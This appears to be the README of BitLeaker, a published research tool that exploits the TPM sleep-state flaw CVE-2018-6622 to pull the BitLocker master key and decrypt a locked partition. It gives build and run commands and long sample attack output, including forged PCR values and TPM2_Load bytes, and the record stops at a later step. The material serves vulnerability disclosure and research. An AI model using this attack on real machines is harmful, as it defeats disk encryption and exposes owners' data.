

```
                                                     ,║▒▒▒▒▒▒@╖
                                                    ╥▒▒╝    ▒▒▒╢
                                                   ]▒▒╢      ]▒▒╢
                                                   ]▒▒▒      j▒▒╢
                               ,                 ,╖║▒▒▒         
                 ,╓╖,  ╓@╬@╥╥╬╣╢╢▓▓            ╖▒╖▒╙▒▒▒░░░▒░▒▒▒▒.
             ║╬@▓╢╢╢╢╢ ╢╢╢╢╢╢╢╢╢╢╢╢[           ╜╜╜╢╢▒▒░░░░░░▒@▓▓▄▒▒▒▒╖
             ╢╢╢╢╢╢╢╢╢ ╢╢╢╢╢╢╢╢╢╢╢╢[           ░░░░░╙╢▓╣╬▓▓@@▓▓@░░æ▓▓▓[
             ╢╢╢╢╢╢╢╢╢ ╢╢╢╢╢╢╢╢╢╢..[           ░░░░░ ░▒▒▒▒▒▒▒▒▒▒▓▓▓▒▒▒H
             ╢                    ╢`           ░░░░░░░▒▒▒▒▒▒▒▒▒▒╢▒▒╢╢╢[
             ..╢╢╢╢╢╢╢ ╢╢╢╢╢╢╢╢╢╢╢╢            ░░░░░░░▒▒▒▒▒▒▒▒▒▒╢╢╢╢╢╢[
             ╢╢╢╢╢╢╢╢╢ ╢╢╢╢╢╢╢╢╢╢╢╢[      ¿░░░,░░░░░░░▒▒▒▒▒▒▒▒▒▒╢╢╢╢╢╢[
             ╢╢╢╢╢╢╢╢╢ ╢╢╢╢╢╢╢╢╢╢╢╢░░░░░░░░░░░░╣▓▓@░░░▒▒▒▒▒▒▒▒▒▒╫╣╣╣▓▓[
               ╙╙   ╙╬ ╨╜╙╬╢╢╢╣╣╢╢╢░░░░░░░░░░░░░░░░╫▓@▓▓▓▒▒▒▒▒▒▒▓▓▓▓▓▓[
                  ,,, ,░░░░░░░░░░╙╨░░░░░░░░░░░░░░░░░░▓▒▒▒▓▓▓▓▓▓▓▓▓▓▓▀"`
             ,,.░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░]▒░░░╙╢▒▓╣▓▒▒▒▒  ]
             ▐▓█████▄░░░░▒░░░░░░░░░░░░░░░░░░░░░░░░░░╟▒▒▒▒▒▒▒▒▒╣▓╢╢╢ ░░
             ▐▓▓██████████▄░░░░░░░░░░░░░░░░░░░░░▒▒▒▒▒▒▒▒▓╢▒▒▒▒╢▓╢╢▒┌░░
             ▐▓▓█████████████████▄░░░▒▒░░▒▒▒▒▒▒▒╢╢╢╢╢╢Ñ▒▒▓╢▒▒▒▒▓╣╢╜▒░░
             ╜▓▓██▀████████████████▌║▒▒▒▒╢╢╢╢╣╢╢╢╣╣╣╣╣╣╣╝╣▒▒╢▓"    ▒░░
             ` "╙``╙╣▀█▀▀██████████▌╢╢╢╢╢╢╢╣╣╣╣╣╢Ñ╜╨Ñ╝`    ╙  ,,   ▒▒▒
                      "` "╨╢▀▀▓▓███▌╢╣╣╣╣╣╣╜╜╨╨╜      ▄, ░░   ,▌ ░░▒▒▒
              ░   e             ╙╣▓▌Ñ╜╙╙╜`            ▌▓ ░░░  ░░░░░▒▒▒
              ░░░░╧╤░░░    ,       ,         ▐░ ░░░░  ░░░░░░░░█▐░▒░▒▒▒
              ░░░░,░░░░░░  ▐,     j▌█    ░ ░░░░░░░░░░░▐░░▒░░░░░░░▒░▒▒▒
              ░░░░▌█░░░░░░░░░░░░ ░░░░░░░░░░░░╪░░░░░░░░░░░▒░░▒░▒▌▒▒▒▒▒▒`
             ▒▒▒▒░▒▒▒▒▒▒░░æ▄▒░▒▒░░æ▄▒▒▒▒▒▒▒▒▌▓▒▒▒▒▒▒▒æ▒▒▒▒▒▒▒▓▓▒▒▒▒▒▒
             ]▒▒▒▒░▒▒▒▒▒▒▒▒╬▒▒▒▒▒▒▒╬▒▒▒▒▒▒▒▒▒▐▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒░░
             └ ▒░░▒▒▒▒▒░▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒]▒░▒▒░▒░▒▒▒░▒▒▒░░░ ░░░; ░░
               ▒░░▒▒░▒║░▒▒▒▒▒▒░▒▒▒▒▒░▒]▒▒]░░▒▒░░ ░░▒░▒░▒░░  ░░ ⌡  ░
               ░ ░░▒░▒] ░░▒░▒░░▒▒░]░░▒;▒▒]░░░░ ░ ░░j░░░▒░   ░  !
                 ░▒L░░└   ░░  ░▒ ░ ░░▒!▒▒ ░ ░  ░ ░░└ ░ ▒
                  ▒L░       ░▒  ░ ░      ░ ░ ░ └ ░  

          BitLeaker v1.0 for decrypting BitLocker with One Vulnerability
                Project link: https://github.com/kkamagui/bitleaker
```

# 1. Notice
BitLeaker is a new tool for extracting the VMK and mounting a BitLocker-locked partition. BitLeaker uses the TPM vulnerability, CVE-2018-6622 for a discrete TPM and related vulnerability for a firmware TPM. They are related to the S3 sleeping state of Advanced Configuration and Power Interface (ACPI) and can reset the TPMs. If you want the detailed information about CVE-2018-6622 and a vulnerability checking tool, please read our USENIX paper, [A Bad Dream: Subverting Trusted Platform Module While You Are Sleeping](https://www.usenix.org/system/files/conference/usenixsecurity18/sec18-han.pdf) and Black Hat Asia presentation, [Finally, I Can Sleep Tonight: Catching Sleep Mode Vulnerabilities of the TPM with Napper](https://www.blackhat.com/asia-19/briefings/schedule/#finally-i-can-sleep-tonight-catching-sleep-mode-vulnerabilities-of-the-tpm-with-the-napper-13588).

## 1.1. Presentation, Paper, and Demo
BitLeaker and related materials were introduced at security conferences below.
 - [Black Hat Europe 2019: BitLeaker: Subverting BitLocker with One Vulnerability](https://www.blackhat.com/eu-19/briefings/schedule/index.html#bitleaker-subverting-bitlocker-with-one-vulnerability-17245)
 - [Black Hat Asia 2019: Finally, I Can Sleep Tonight: Catching Sleep Mode Vulnerabilities of the TPM with the Napper](https://www.blackhat.com/asia-19/briefings/schedule/index.html#finally-i-can-sleep-tonight-catching-sleep-mode-vulnerabilities-of-the-tpm-with-the-napper-13588)
 - [USENIX Security 2018: A Bad Dream: Subverting Trusted Platform Module While You Are Sleeping](https://www.usenix.org/system/files/conference/usenixsecurity18/sec18-han.pdf)

You can watch the demo video below.
 - [](https://youtu.be/H6uAkLC_8kQ)

## 1.2. Contributions
We always welcome your contributions. If you have any other ideas, feel free to contact us.

## 1.3. License
BitLeaker has GPL v2 license.

# 2. Introduce of BitLeaker
Trusted Platform Module (TPM) is a tamper-resistant security module. It has been widely deployed in commercial devices to protect secret data and ensure the trustworthiness of a system. There are two typical types of TPMs, hardware-based discrete TPM (dTPM) and firmware-based TPM (fTPM). Microsoft Windows has used both types of TPMs to protect the Volume Master Key (VMK) of their disk encryption software, BitLocker.

BitLocker's TPM feature has not been analyzed in detail. It has hidden behind the TPMs because the TPM protected the VMK of BitLocker with sealing and unsealing functions. Most security researchers concluded the VMK sealed by the TPM was safe. Recent works also showed the only way to extract the VMK from the TPM was physical access like probing the Low Pin Count (LPC) bus or TPM pins. However, we found a novel way that can subvert BitLocker with only the software.

We introduce a sleep mode vulnerability of the dTPM and fTPM that can subvert BitLocker. We also introduce a new tool, BitLeaker, that can extract the VMK from the TPMs and decrypt a BitLocker-locked partition without physical access. Last year, we already introduced a dTPM vulnerability, CVE-2018-6622. However, we found out that the same vulnerability was in the fTPM this year, especially Intel Platform Trust Technology (PTT). The sleep mode vulnerability can subvert not only the fTPM but also the dTPM with the S3 sleeping state of Advanced Configuration and Power Interface (ACPI), and it can forge Platform Configuration Registers (PCRs). PCRs are core parts of the sealing and unsealing functions to protect the VMK of BitLocker. By exploiting the vulnerability, we extracted the VMK from TPMs and decrypted a BitLocker-locked partition with our custom tool, BitLeaker.

# 3. How to Use the BitLeaker Tool
BitLeaker consists of a BitLeaker bootloader, BitLeaker kernel module, BitLeaker launcher, customized TPM2-TSS, and TPM2\_tools. It is based on Ubuntu 18.04, and you can make a Live CD with Ubuntu and BitLeaker.

## 3.1 Install Ubuntu 18.04 with UEFI mode and Clone BitLeaker Source Code
#### === Caution ===
If you don't use UEFI mode, BitLeaker will not work!

If you want to use the _bitleaker.desktop_ app icon, Please set the user ID to bitleaker and copy _bitleaker.desktop_ file to _/usr/share/applications_ directory.
#### ===============

BitLeaker is based on Ubuntu 18.04. Therefore, you download it from [Official Ubuntu Website](https://www.ubuntu.com/download/desktop) and install it to your target system with UEFI mode. 

After that, you clone BitLeaker source code from the [BitLeaker project site, https://www.github.com/kkamagui/bitleaker](https://www.github.com/kkamagui/bitleaker) and build it with commands below.

```
# Clone Bitleaker source code from project site.
$> git clone https://github.com/kkamagui/bitleaker.git

# Build Bitleaker.
$> cd bitleaker
$> ./bootstrap
```
## 3.2 Run BitLeaker with a Terminal
After building the source code, you can run a BitLeaker tool with a terminal. Please type the command below in your terminal. BitLeaker front-end is made of Python script.
```
# Run BitLeaker
$> sudo ./bitleaker.py

# if you want to use the bitleaker app icon, please copy bitleaker.desktop to /usr/share/applications
$> sudo bitleaker.desktop /usr/share/applications
```

## 3.3. Test Example
The result below is an example of NUC8i7HVK model. The system has an old version of BIOS and a fTPM.
```
$> sudo ./bitleaker.py 
[sudo] password for bitleaker: 
                                                ,║▒▒▒▒▒▒@╖
                                               ╥▒▒╝    ▒▒▒╢
                                              ]▒▒╢      ]▒▒╢
                                              ]▒▒▒      j▒▒╢
                          ,                 ,╖║▒▒▒
            ,╓╖,  ╓@╬@╥╥╬╣╢╢▓▓            ╖▒╖▒╙▒▒▒░░░▒░▒▒▒▒.
        ║╬@▓╢╢╢╢╢ ╢╢╢╢╢╢╢╢╢╢╢╢[           ╜╜╜╢╢▒▒░░░░░░▒@▓▓▄▒▒▒▒╖
        ╢╢╢╢╢╢╢╢╢ ╢╢╢╢╢╢╢╢╢╢╢╢[           ░░░░░╙╢▓╣╬▓▓@@▓▓@░░æ▓▓▓[
        ╢╢╢╢╢╢╢╢╢ ╢╢╢╢╢╢╢╢╢╢..[           ░░░░░ ░▒▒▒▒▒▒▒▒▒▒▓▓▓▒▒▒H
        ╢                    ╢`           ░░░░░░░▒▒▒▒▒▒▒▒▒▒╢▒▒╢╢╢[
        ..╢╢╢╢╢╢╢ ╢╢╢╢╢╢╢╢╢╢╢╢            ░░░░░░░▒▒▒▒▒▒▒▒▒▒╢╢╢╢╢╢[
        ╢╢╢╢╢╢╢╢╢ ╢╢╢╢╢╢╢╢╢╢╢╢[      ¿░░░,░░░░░░░▒▒▒▒▒▒▒▒▒▒╢╢╢╢╢╢[
        ╢╢╢╢╢╢╢╢╢ ╢╢╢╢╢╢╢╢╢╢╢╢░░░░░░░░░░░░╣▓▓@░░░▒▒▒▒▒▒▒▒▒▒╫╣╣╣▓▓[
          ╙╙   ╙╬ ╨╜╙╬╢╢╢╣╣╢╢╢░░░░░░░░░░░░░░░░╫▓@▓▓▓▒▒▒▒▒▒▒▓▓▓▓▓▓[
             ,,, ,░░░░░░░░░░╙╨░░░░░░░░░░░░░░░░░░▓▒▒▒▓▓▓▓▓▓▓▓▓▓▓▀"`
        ,,.░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░]▒░░░╙╢▒▓╣▓▒▒▒▒  ]
        ▐▓█████▄░░░░▒░░░░░░░░░░░░░░░░░░░░░░░░░░╟▒▒▒▒▒▒▒▒▒╣▓╢╢╢ ░░
        ▐▓▓██████████▄░░░░░░░░░░░░░░░░░░░░░▒▒▒▒▒▒▒▒▓╢▒▒▒▒╢▓╢╢▒┌░░
        ▐▓▓█████████████████▄░░░▒▒░░▒▒▒▒▒▒▒╢╢╢╢╢╢Ñ▒▒▓╢▒▒▒▒▓╣╢╜▒░░
        ╜▓▓██▀████████████████▌║▒▒▒▒╢╢╢╢╣╢╢╢╣╣╣╣╣╣╣╝╣▒▒╢▓"    ▒░░
        ` "╙``╙╣▀█▀▀██████████▌╢╢╢╢╢╢╢╣╣╣╣╣╢Ñ╜╨Ñ╝`    ╙  ,,   ▒▒▒
                 "` "╨╢▀▀▓▓███▌╢╣╣╣╣╣╣╜╜╨╨╜      ▄, ░░   ,▌ ░░▒▒▒
         ░   e             ╙╣▓▌Ñ╜╙╙╜`            ▌▓ ░░░  ░░░░░▒▒▒
         ░░░░╧╤░░░    ,       ,         ▐░ ░░░░  ░░░░░░░░█▐░▒░▒▒▒
         ░░░░,░░░░░░  ▐,     j▌█    ░ ░░░░░░░░░░░▐░░▒░░░░░░░▒░▒▒▒
         ░░░░▌█░░░░░░░░░░░░ ░░░░░░░░░░░░╪░░░░░░░░░░░▒░░▒░▒▌▒▒▒▒▒▒`
        ▒▒▒▒░▒▒▒▒▒▒░░æ▄▒░▒▒░░æ▄▒▒▒▒▒▒▒▒▌▓▒▒▒▒▒▒▒æ▒▒▒▒▒▒▒▓▓▒▒▒▒▒▒
        ]▒▒▒▒░▒▒▒▒▒▒▒▒╬▒▒▒▒▒▒▒╬▒▒▒▒▒▒▒▒▒▐▌▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒░░
        └ ▒░░▒▒▒▒▒░▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒]▒░▒▒░▒░▒▒▒░▒▒▒░░░ ░░░; ░░
          ▒░░▒▒░▒║░▒▒▒▒▒▒░▒▒▒▒▒░▒]▒▒]░░▒▒░░ ░░▒░▒░▒░░  ░░ ⌡  ░
          ░ ░░▒░▒] ░░▒░▒░░▒▒░]░░▒;▒▒]░░░░ ░ ░░j░░░▒░   ░  !
            ░▒L░░└   ░░  ░▒ ░ ░░▒!▒▒ ░ ░  ░ ░░└ ░ ▒
             ▒L░       ░▒  ░ ░      ░ ░ ░ └ ░

    BitLeaker v1.0 for decrypting BitLocker with the TPM vulnerability
           Project link: https://github.com/kkamagui/bitleaker 

Search for BitLocker-locked partitions.
    [>>] BitLocker-locked partition is [/dev/nvme0n1p4]

Loading BitLeaker kernel module... Success
Entering sleep...
    [>>] Please press any key or power button to wake up...
Waking up...
    [>>] Please press any key to continue...

Preparing PCR data.
    [>>] Get PCR data from BitLeaker driver... Success

Cut and extract essential PCR data.
    [>>] Extract PCR numbers and SHA256 hashes... Success

Replay TPM data.
    [>>] Checking the resource manager process... Success

... omitted ...

    [>>] PCR 7 , SHA256 = ccfc4bb32888a345bc8aeadaba552b627d99348c767681ab3141f5b01e40a40e
PCR Num 7
ccfc4bb32888a345bc8aeadaba552b627d99348c767681ab3141f5b01e40a40e

Bank/Algorithm: TPM_ALG_SHA256(0x000b)
PCR_00: f4 7c a8 7c 43 ed b5 1f 72 f7 21 21 d1 4f 28 b2 db 37 a6 d4 d7 7a c1 f2 cc c1 4b 32 5f da 8b ac
PCR_01: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_02: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_03: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_04: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_05: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_06: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_07: e5 8a da 1b a7 5f 2e 47 22 b5 39 82 45 98 ad 5e 10 c5 5f 2e 4a ea b2 03 3f 3b 0a 8e e3 f3 ec a6
PCR_08: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_09: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_10: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_11: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_12: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_13: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_14: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_15: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_16: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_17: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_18: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_19: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_20: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_21: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_22: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_23: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

    [>>] PCR 7 , SHA256 = 78684298cc54cf7550bd38d3c378eeee59d3ae027632cda6f507ac5ccd257b35
PCR Num 7
78684298cc54cf7550bd38d3c378eeee59d3ae027632cda6f507ac5ccd257b35

Bank/Algorithm: TPM_ALG_SHA256(0x000b)
PCR_00: f4 7c a8 7c 43 ed b5 1f 72 f7 21 21 d1 4f 28 b2 db 37 a6 d4 d7 7a c1 f2 cc c1 4b 32 5f da 8b ac
PCR_01: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_02: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_03: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_04: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_05: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_06: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_07: f1 fe 22 30 a9 50 85 ba f7 23 f5 36 d2 2a e8 af b8 23 ae 9c 35 5e f0 8f d8 5a 27 3c 4d 8b 17 f4
PCR_08: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_09: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_10: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_11: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_12: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_13: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_14: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_15: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_16: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_17: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_18: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_19: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_20: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_21: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_22: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_23: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

... omitted ...

    [>>] Last PCR 7, SHA256 = 30bf464ee37f1bc0c7b1a5bf25eced275347c3ab1492d5623ae9f7663be07dd5
PCR Num 7
30bf464ee37f1bc0c7b1a5bf25eced275347c3ab1492d5623ae9f7663be07dd5

Bank/Algorithm: TPM_ALG_SHA256(0x000b)
PCR_00: e3 af a3 d7 72 16 ce f7 ca f4 3b f6 ca 88 83 48 06 56 01 3f 4b 6b c3 7b 29 ca aa ed b2 a6 33 96
PCR_01: 51 4a e7 aa f6 82 3a 4c c1 1a c8 17 73 ac a4 19 4c ca dc 07 31 58 d1 1a 67 ef c8 f7 9d 75 a9 0f
PCR_02: 85 f6 3d 95 59 75 fb d1 ca 4e 93 4b 32 b9 3b f9 3f 4d 68 5f cb b4 3f e5 80 05 51 69 b7 57 fd 6e
PCR_03: 3d 45 8c fe 55 cc 03 ea 1f 44 3f 15 62 be ec 8d f5 1c 75 e1 4a 9f cf 9a 72 34 a1 3f 19 8e 79 69
PCR_04: 3d 45 8c fe 55 cc 03 ea 1f 44 3f 15 62 be ec 8d f5 1c 75 e1 4a 9f cf 9a 72 34 a1 3f 19 8e 79 69
PCR_05: c7 02 7a ef 3a 65 5b 76 5c ad c6 69 2f 9e 81 13 7b 41 76 c3 20 a7 4f c9 d6 30 b3 da cc b6 c5 5a
PCR_06: 3d 45 8c fe 55 cc 03 ea 1f 44 3f 15 62 be ec 8d f5 1c 75 e1 4a 9f cf 9a 72 34 a1 3f 19 8e 79 69
PCR_07: f6 dd c2 72 1f 58 23 76 90 ff 44 e6 0c 41 18 a9 f3 6d 88 dd ee 64 8c f2 f0 a9 77 74 4e a9 2d 6c
PCR_08: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_09: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_10: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_11: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_12: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_13: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_14: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_15: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_16: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
PCR_17: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_18: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_19: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_20: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_21: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_22: ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
PCR_23: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

Preparing TPM data.
    [>>] Get TPM-encoded blob from dislocker... Success
    [>>] Convert TPM-encoded blob to hex data... Success
    [>>] Create TPM2_Load data... Success
    [>>] Create TPM2_StartSession data... Success
    [>>] Create TPM2_PolicyAuthorize data... Success
    [>>] Create TPM2_PolicyPCR data... Success
    [>>] Create TPM2_Unseal data... Success

Execute TPM commands
    [>>] Execute TPM2_Load... Input file tpm2_load.bin
Initializing Local Device TCTI Interface
    [*] Input Size 247
00000000  80 02 00 00 00 f7 00 00  01 57 81 00 00 01 00 00  |.........W......|
00000010  00 09 40 00 00 09 00 00  00 00 00 00 8a 00 20 b7  |..@........... .|
00000020  3f 86 88 16 00 33 91 70  d2 63 d4 0e 94 58 ee a9  |?....3.p.c...X..|
00000030  ac f4 6c cd da 0d a2 e7  7c 0f 66 7d ac fe f6 00  |..l.....|.f}....|
00000040  10 ae fc 34 82 87 63 18  bf f6 6d 24 95 f2 0b 7f  |...4..c...m$....|
00000050  de 01 28 d4 2c a4 7b 4b  95 f2 51 a2 44 46 89 44  |..(.,.{K..Q.DF.D|
00000060  94 70 f7 f0 f5 9b d0 4c  01 40 71 21 fe 4b af 82  |.p.....L.@q!.K..|
00000070  8a cd aa 4c 2b 76 a4 46  17 db 49 2f d1 bb 9b 41  |...L+v.F..I/...A|
00000080  4f 83 89 01 24 f6 9e db  f8 0a d6 5d 45 63 41 e5  |O...$......]EcA.|
00000090  29 b4 0e 8e f0 44 a5 52  75 bf 12 c1 85 ad 79 31  |)....D.Ru.....y1|
000000a0  79 5e 60 61 cd 99 f9 00  4e 00 08 00 0b 00 00 04  |y^`a....N.......|
000000b0  12 00 20 6f b5 05 0c 0a  64 e6 ff 2e 0a f1 8e 9c  |.. o....d.......|
000000c0  d8 26 40 87 44 b0 f2 08  4a bc a9 c7 cd 7e 72 17  |.&@.D...J....~r.|
000000d0  de cc f0 00 10 00 20 54  4a d5 bc 0f ec ca db 9c  |...... TJ.......|
000000e0  b1 56 8e be 6f 9a 3b 25  2f d9 37 9f 3e b1 e1 98  |.V..o.;%/.7.>...|
000000f0  f7 48 cd 93 c2 82 51                              |.H....Q|

    [*] Output Size 59, Result: Success
00000000  80 02 00 00 00 3b 00 00  00 00 80 00 00 01 00 00  |.....;..........|
00000010  00 24 00 22 00 0b 70 63  1d 68 87 fb 16 55 bd 3e  |.$."..pc.h...U.>|
00000020  71 c6 7b 02 17 2c 2c 33  c7 00 fa 45 9c 1e 1c 7d  |q.{..,,3...E...}|
00000030  b2 91 fc b4 7f 86 00 00  01 00 00                 |...........|
    [>>] Success

    [>>] Execute TPM2_StartSession... Input file tpm2_startsession.bin
